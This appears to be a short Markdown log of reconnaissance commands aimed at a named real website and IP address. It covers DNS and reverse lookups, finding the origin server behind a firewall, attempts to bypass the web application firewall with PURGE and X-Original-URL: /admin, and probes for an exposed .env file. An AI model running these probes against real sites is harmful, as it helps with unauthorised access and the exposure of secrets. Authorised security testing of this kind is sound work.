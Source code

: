 # Methodology & Commands Log

## DNS Reconnaissance

```bash
# SPF Record Discovery
dig TXT itskillscentre.com.ng +short

# Resolving included domain
dig A websitewelcome.com +short

# Reverse DNS Lookup (PTR Record)
dig -x 192.185.93.75 +short
```

## Origin IP Verification

```bash
# Direct IP access
curl -I http://192.185.93.75/

# Access with Host Header
curl -I -H "Host: itskillscentre.com.ng" http://192.185.93.75/

# Forced resolution via curl
curl --resolve itskillscentre.com.ng:80:192.185.93.75 -I http://itskillscentre.com.ng/
```

## Application Testing

```bash
# WAF Bypass Attempts
curl -X PURGE https://itskillscentre.com.ng/
curl -H "X-Original-URL: /admin" https://itskillscentre.com.ng/

# Sensitive File Discovery
curl -I https://itskillscentre.com.ng/.env
curl -I https://itskillscentre.com.ng/robots.txt
```
